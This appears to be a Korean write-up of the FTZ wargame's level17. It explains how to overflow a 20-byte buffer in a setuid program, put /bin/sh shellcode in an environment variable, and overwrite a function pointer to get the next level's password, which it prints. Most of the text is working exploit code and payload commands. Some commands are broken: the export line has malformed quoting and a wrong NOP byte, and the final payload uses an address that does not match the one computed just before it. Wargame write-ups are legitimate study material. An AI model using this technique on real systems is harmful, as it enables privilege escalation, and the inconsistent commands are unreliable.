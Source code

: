 # FTZ Level17

#### ID : level17 PW: king poetic
<br>

**먼저 ```ls -l```을 이용해 어떤 파일이 있는지 살펴보자**<br> 
attackme 프로그램에 level18의 권한으로 setuid가 걸려있는 것을 확인할 수 있다.<br><br>
우선 hint의 내용을 보자<br>
```cat hint```<br>
```c
#include <stdio.h>

main()
{
      void printit(){
        printf("Hello there!\n");
      }
      main(){
        int crap;
        void (*call)()=printit;
        char buf[20];
        fgets(buf, 48, stdin);
        setreuid(3098, 3098);
        call();
      }
}
```
Level16과 매우 비슷한데 shell 함수만 없다. 그러므로 환경변수에 쉘 코드를 등록하는 방법을 이용할 것이다.

우리의 목적을 생각해보자.<br>
1. buf에서 *call까지 거리 구하기
2. 쉘 코드 환경변수 등록 후 주소 확인
3. *call 위치 쉘 코드 주소로 덮어 씌우기
3. 공격!

buf에서 *call까지의 거리는 level16과 동일하므로 40이다<br>
[ftz_level16.md 참고하기](https://github.com/white-bean/security-study/blob/master/ftz/ftz_level16.md)

이제 쉘 코드를 등록하고 주소를 찾아보자.<br>
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80<br>

```export shellcode=$(python -c 'print "\n90"*20+\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"')```<br>
vi에디터를 이용해 쉘 코드의 주소값을 받아오는 코드를 작성한다.<br>
```vi shell.c```<br>
```c
#include <stdio.h>

int main()
{
    printf("%p\n", getenv("shellcode"));
    return 0;
}
```
```
gcc -o shell shell.c
./shell
```
만든 코드를 실행시키면 쉘 코드의 주소값을 알 수 있다.<br>
필자의 경우 0xbffffef4가 나왔다.<br>

그렇다면 우리가 작성할 페이로드는 다음과 같다고 할 수 있다.<br>
**"A"*(buf~call까지 거리)+(0xbffffef4)**<br>

**이제 페이로드를 작성해보자.**<br>
```(python -c 'print "A"*40+"\xf4\xfe\xff\xbf"';cat)|./attackme```<br>
*(주소는 little endian 방식으로 입력된다)*<br>
<br>
```cd ..``` 다시 원래 디렉토리로 되돌아가서<br>
**공격 실시!**<br>
```(python -c 'print "A"*40+"\xb2\x84\x04\x08"';cat)|./attackme```<br>
```my-pass```로 비밀번호를 물어보면<br>
Level18 Password is "~~". 라고 나올 것이다!!
